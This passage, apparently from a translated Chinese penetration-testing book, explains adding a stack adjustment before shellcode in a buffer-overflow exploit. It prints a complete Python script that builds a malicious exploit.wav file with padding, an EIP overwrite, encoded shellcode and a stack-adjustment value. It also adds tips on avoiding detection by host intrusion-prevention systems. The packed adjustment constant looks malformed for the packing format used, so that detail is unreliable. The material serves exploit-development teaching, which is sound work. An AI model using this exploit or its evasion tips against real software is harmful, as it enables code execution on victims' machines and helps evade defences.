 ### 提示

您可以使用内置的 Windows 计算器在科学模式下从十进制转换为十六进制，反之亦然。

这意味着我们在我们的漏洞利用中添加以下代码来调整堆栈`adjustment = struct.pack('<I',0x81EC80380100)`。然后，我们在 shellcode 之前添加调整值`exploit = fill + eip + offset + adjustment + shell`。最后，我们移除我们的 NOP sled，因为这不是填充我们的次级阶段将包含的空间，最终的代码将类似于这样。

```py
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
adjustment = struct.pack('<I',0x81EC80380100)
shell =("\xba\x16\xdf\x1b\x5d\xd9\xf6\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
"\x2d\x31\x56\x13\x83\xc6\x04\x03\x56\x19\x3d\xee\xa1\x4f\x2a"
"\x56\xb2\x76\x53\xa6\xbd\xe8\x9d\x82\xc9\x95\xe1\xbf\xb2\x58"
"\x62\xc1\xa5\x29\xc5\xe1\x38\xc7\x61\xd5\xa0\x16\x98\x27\x15"
"\x81\xc8\x89\x5f\xbc\x11\xc8\xe4\x7e\x64\x3a\xa7\x18\xbe\x08"
"\x5d\x07\x8b\x07\xd1\xe3\x0d\xf1\x88\x60\x11\x58\xde\x39\x36"
"\x5b\x09\xc6\x6a\xc2\x40\xa4\x56\xe8\x33\xcb\x77\x21\x6f\x57"
"\xf3\x01\xbf\x1c\x43\x8a\x34\x52\x58\x3f\xc1\xfa\x68\x61\xb0"
"\xa9\x0e\xf5\x0f\x7f\xa7\x72\x03\x4d\x68\x29\x85\x08\xe4\xb1"
"\xb6\xbc\x9c\x61\x1a\x13\xcc\xc6\xcf\xd0\xa1\x41\x08\xb0\xc4"
"\xbd\xdf\x3e\x90\x12\x86\x87\xf9\x4a\xb9\x21\x63\xcc\xee\xa2"
"\x93\xf8\x78\x54\xac\xad\x44\x0d\x4a\xc6\x4b\xf6\xf5\x45\xc5"
"\xeb\x90\x79\x86\xbc\x02\xc3\x7f\x47\x34\xe5\xd0\xf3\xc6\x5a"
"\x82\xac\x85\x3c\x9d\x92\x12\x3e\x3b")
exploit = fill + eip + offset +adjustment + shell
open('exploit.wav', 'w').close()
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```

然而，这种方法存在一个问题。如果您的堆栈调整中有坏字符，您需要通过编码来消除这些字符。由于您通常不会在以后修改您的堆栈调整，您可以将其作为您的 shell 的一部分，并对整个代码块进行编码。当我们反向一个 Metasploit 模块时，我们将通过这个过程。

### 提示

确保在你的代码中添加关于你的堆栈调整的注释；否则，当你尝试扩展这个漏洞利用或使用其他有效负载时，你会非常沮丧。

作为一个附带的好处，如果我们使用这种方法而不是使用 NOP sleds，那么漏洞利用不太可能被 HIPS 捕捉到。现在我们已经做了所有这些，意识到有一种更简单的方法可以使用标准有效负载来获得访问权限。

### 提示

如果你仍然需要 NOPs 来进行真正的漏洞利用，确保使用 Metasploit 提供给你的 NOP 生成器。代码不使用"\x90"指令，而是进行无意义的数学运算。这些操作占用了堆栈空间，并提供了相同的功能。

# 理解本地利用的目的
